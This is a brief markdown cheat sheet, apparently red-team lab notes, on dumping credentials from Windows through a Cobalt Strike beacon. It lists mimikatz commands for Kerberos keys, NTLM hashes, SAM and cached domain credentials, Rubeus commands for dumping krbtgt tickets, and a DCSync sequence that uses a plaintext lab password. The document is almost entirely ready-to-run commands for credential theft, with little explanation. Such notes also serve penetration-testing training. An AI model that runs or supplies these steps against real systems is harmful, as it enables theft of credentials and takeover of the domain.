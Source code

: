 # How to Retrieve Credentials 
## plaintext (username & password), hashes (NTLM, AES, DCC, NetNTLM, etc), and Kerberos tickets.

Use ```mimikatz```!

First try:
```
beacon> mimikatz !sekurlsa::ekeys
```
It will dump the Kerberos encryption keys of currently logged on users. The AES256 key is the one we want.

otherwise:
```
beacon> mimikatz !sekurlsa::logonpasswords
```
This module can retrieve NTLM hashes that can be used for _Pass the Hash_ or even cracking.

Another way to get NTLM hashes is via SAM DAtabase:
```
beacon> mimikatz !lsadump::sam
```

DCC can be used too. Little trickiest. :)
```
beacon> mimikatz !lsadump::cache
```
Domain Cached Credentials (DCC) can be used where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain.
You can't get the NTLM hash but you need to build the hash ($DCC2$<iterations>#<username>#<hash>) and then crack it.
 
Kerberos ticket!
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```
```triage``` command will list all the Kerberos tickets in your current session.
we can specify the /luid and /service parameters too and get tickets in base64 encoded format.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt
```

Lastly, DCSync 
```
beacon> make_token DEV\nlamb F3rrari
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
```

is a technique which leverages this protocol to extract username and credential data from a DC
